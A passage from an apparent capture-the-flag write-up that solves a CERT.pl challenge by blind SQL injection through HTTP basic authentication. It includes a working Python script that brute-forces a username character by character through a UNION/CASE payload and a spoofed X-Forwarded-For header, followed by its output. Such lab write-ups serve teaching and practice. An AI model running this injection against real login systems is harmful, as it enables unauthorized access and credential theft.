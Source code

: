 This time we get ```HTTP/1.0 401 Unauthorized``` response, so our injected query is false.

Ok, now when we know how to distinct between valid and invalid queries, let's start username extraction. To do this, I've prepared simple Python expolit, which iterates over character set:

```Python
#!/usr/bin/env python
import requests


query = "name' or '1'='2' UNION SELECT 'user', CASE WHEN (SELECT substr(login, {},1) FROM users LIMIT 1,1)='{}' THEN '5f4dcc3b5aa765d61d8327deb882cf99' ELSE '' END--"

url = 'http://ecsm2017.cert.pl:6044/index.php/instructions'

headers = {
    "User-Agent": "hackerone.com/bl4de",
    "X-Forwarded-For": "175.45.176.100"
}

login = ''
for rep in range(1, 30):
    for c in 'abcdefghijklmnopqrstuwvxyzABCDEFGHNIJKLMNOPQRSTUWVXYZ1234567890-_[]()$#%&*!+=-;<>?/':
        auth = (
            query.format(rep, c), 'password'
        )
        resp = requests.get(url, auth=auth, headers=headers)
        if '</h2><h3>' in resp.content:
            login = login + c
            print '[+] found username: {}'.format(login)
            continue

print '[+] finished!!!'

```


Although script is rather self-explanatory, here is fragment of its ouptut during username extraction process:

```
$ ./sqli.py
[+] found username: V
[+] found username: Ve
[+] found username: VeR
[+] found username: VeRy
[+] found username: VeRyS
[+] found username: VeRySe
[+] found username: VeRySeC
[+] found username: VeRySeCr
(...)
```

It takes some time for this script to finish, but when it's finally done, we have username we need to finally solve the challenge: ```VeRySeCr3tAgent```.
